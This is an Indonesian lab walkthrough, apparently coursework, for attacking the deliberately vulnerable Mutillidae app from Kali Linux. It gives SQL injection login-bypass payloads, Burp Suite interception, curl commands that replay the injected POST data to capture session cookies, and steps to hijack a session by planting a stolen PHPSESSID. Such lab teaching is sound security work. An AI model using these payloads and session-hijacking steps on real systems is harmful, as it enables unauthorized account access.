 Lesson 6
--------
### Section 6: Open Console Terminal and Retrieve IP Address
- **Step 1**    : Buka Terminal Kali Linux
- **Step 2**    : Dapatkan IP address dari Kali Linux
    ```
    ifconfig
    ```
    - IP address yang didapatkan `10.151.64.195`
    - VM Kali Linux ini akan digunakan sebagai penyerang Metasploitable
    ![](/assets/lesson-6/ifconfig.png)

### Section 7: Start Web Browser Session to Mutillidae
- **Step 1**    : Buka Mozilla Firefox
- **Step 2**    : Buka Multilidae
    ![](/assets/lesson-6/open_multilidae.png)

### Section 8: Go To Login Page
- **Step 1**    : Klik Login/Register
    ![](/assets/lesson-6/click-login.png)

### Section 9: Configure Firefox Proxy Settings
- **Step 1**    : Buka Preference > Advanced > Network > Settings...
- **Step 2**    : Konfirgurasi Proxy
    - Klik **Manual Proxy Configuration**
    - Ketik `127.0.0.1` di kolom **HTTP Proxy**
    - Ketik `8080` di kolom **Port**
    - Check **Use this proxy server for all protocols**
    - Klik Ok
    - Klik Close
    ![](/assets/lesson-6/config-proxy.png)
    
### Section 10: Configure Burpsuite Settings
- **Step 1**    : Buka Burpsuite melalui Applications > Web Application Analysis > Burpsuite
    ![](/assets/lesson-6/VirtualBox_kali_19_12_2017_12_27_52.png)
- **Step 2**    : Pilih **Temporary project**, lalu **next**
    ![](/assets/lesson-6/temp_project.png)
- **Step 3**    : Pilih **Use Burp defaults**, lalu **Start Burp**
    ![](/assets/lesson-6/burp_config.png)
- **Step 4**    : Buka Proxy > Options, dan pastikan **Port** berupa 8080
    ![](/assets/lesson-6/burp_proxy.png)
- **Step 5**    : Buka Proxy > Intercept, ubah **Intercept is on** menjadi **Intercept is off**
    ![](/assets/lesson-6/proxy-intercept.png)
    
### Section 11: SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
    ```
    - Query yang sebenarnya dikerjakan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1
    ```
- **Step 5**    : Lihat data request **POST**
    - Klik Proxy Tab
    - Klik HTTP History
    - Klik baris yang berisi `/mutillidae/index.php?page=login.php`
    - Klik Request Tab
    _ Klik Raw Tab
    - Lihat **POST** Data String        
        ```
        username=%27+or+1%3D1--+&password=&login-php-submit-button=Login
        ```
        - `%27` adalah petik satu (')
        - `+` adalah spasi
        - `%3D` adalah sama dengan (=)
        ![](/assets/lesson-6/obtain_1.png)
        
### Section 12: Simulate CURL SQL Injection: (Obtain Access #1)
- **Step 1**    : Klik Logout
- **Step 2**    : Gunakan Curl untuk mekakukan login dengan **POST** data yang didapatkan dengan Burpsuite pada Section 11
    ```
    curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1--+&password=&login-php-submit-button=Login" --location "http://10.151.36.64/mutillidae/index.php?page=login.php" > login1.txt
    ```
    - menampilkan hasil "Logged In Admin"
        ```
        grep "Logged In" login1.txt
        ```
    - menampilkan **session cookies** beserta **PHP session ID** (PHPSESSID)
        ```
        cat crack_cookies.txt
        ```
    ![](/assets/lesson-6/obtain_1_curl.png)
    
### Section 13: SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada elemen **type**. Ganti elemen maxlength menjadi `50` dan elemen size menjadi `50`
    ![](/assets/lesson-5/inspect-password-size.png)
- **Step 6**    : Ketik `' or (1=1 and username='samurai')-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/non-obfused-pass-2.png)
    - Anda akan berhasil login sebagai `samurai`
    ![](/assets/lesson-5/samurai-logged-in.png)
    - Query yang dihasilkan
    ```
    SELECT * FROM accounts WHERE username='samurai' AND password='' or (1=1 and username='samurai')-- '
    ```
- **Step 8**    : Lihat data request **POST**
    - Klik Proxy Tab
    - Klik HTTP History
    - Klik baris yang berisi `/mutillidae/index.php?page=login.php`
    - Klik Request Tab
    - Klik Raw Tab
    - Block semuta teks lalu klik kanan
    - Klik "Copy to File"
        ![](/assets/lesson-6/obtain_2.png)
    - Simpan sebagai `burp2.txt`
- **Step 9**    : Lihat Post Data
    - `grep -i cookie burp2.txt`
    - `grep -i username burp2.txt`
    ![](/assets/lesson-6/burp2-txt.png)
- **Step 10**    : Logout dan tutup Mozilla Firefox

### Section 14: Simulate cURL SQL Injection: (Obtain Access #2)
- **Step 1**    : Buka Terminal
- **Step 2**    : Hapus file crack_cookies.txt
    ```
    rm crack_cookies.txt
    ```
- **Step 3**    : Gunakan **POST** Data dari burp2.txt
    ```
    grep -i username burp2.txt
    ```
- **Step 4**    : Lakukan Autentikasi menggunakan Curl
    ```
    curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29--+&login-php-submit-button=Login" --location "http://10.151.36.64/mutillidae/index.php?page=login.php" > login2.txt
    ```
    - Cek status Autentikasi
        ```
        grep "Logged In" login2.txt
        ```
    - menampilkan **session cookies** beserta **PHP session ID** (PHPSESSID)
        ```
        Cat crack_cookies.txt
        ```
    ![](/assets/lesson-6/curl-2.png)

### Section 15: Restore Firefox Original Proxy Configurations
- **Step 1**    : Buka Preference > Advanced > Network > Settings...
- **Step 2**    : Konfirgurasi Proxy
    - Klik **No Proxy**
    - Klik Ok
    - Klik Close
    ![](/assets/lesson-6/no-proxy.png)
    
### Section 16: Simulate Man-In-The-Middle Attack
- **Step 1**    : Install Cookies Manager+
    ![](/assets/lesson-6/install-cookies.png)
- **Step 2**    : Buka Cookies Manager+
    ![](/assets/lesson-6/open-cookies.png)
- **Step 3**    : Buka Cookies dari crack_cookies.txt
    ![](/assets/lesson-6/get-cookies.png)
- **Step 4**    : Edit PHPSESSID dari host `10.151.36.64`
    - Name: PHPSESSID
    - Content: 993789dd2451026982b1068764bcf2de (sesuaikan dengan **crack_cookies.txt**) 
    - Host: 10.151.36.64
    - Path: /
    - Save
    ![](/assets/lesson-6/phpsessid.png)
- **Step 5**    : Tambah entri cookies showhints
    - Click Add
    - Name: showhints
    - Content: 0 (sesuaikan dengan **crack_cookies.txt**)
    - Host: 10.151.36.64
    - Path: /mutillidae/  
    - Save
    ![](/assets/lesson-6/showhints.png)
- **Step 6**    : Tambah entri cookies username
    - Click Add
    - Name: username
    - Content: samurai (sesuaikan dengan **crack_cookies.txt**)
    - Host: 10.151.36.64
    - Path: /mutillidae/  
    - Save
    ![](/assets/lesson-6/username.png)
- **Step 7**    : Tambah entri cookies uid
    - Click Add
    - Name: uid
    - Content: 6 (sesuaikan dengan **crack_cookies.txt**)
    - Host: 10.151.36.64
    - Path: /mutillidae/  
    - Save
    ![](/assets/lesson-6/uid.png)
- **Step 8**    : Buka `http://10.151.36.64/mutillidae/index.php`, anda akan terlogin sebagai samurai
    ![](/assets/lesson-6/result.png)

### Proof of Lab
![](/assets/lesson-6/proof-of-labs-6.png)




    
    

    
